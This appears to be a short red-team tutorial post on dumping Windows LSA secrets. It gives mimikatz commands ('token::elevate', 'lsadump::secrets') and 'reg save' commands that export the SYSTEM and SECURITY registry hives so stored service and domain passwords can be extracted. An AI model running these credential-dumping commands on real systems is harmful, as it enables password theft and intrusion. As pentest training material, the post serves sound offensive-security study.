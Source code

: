 ```yaml
---
layout: post
title: "2024-06-18-dumping lsa secrets"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-lsa-secrets/
---
```


# Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-20-39.png>)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-25-01.png>)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-37-11.png>)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-38-02.png>)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}

@spotheplanet
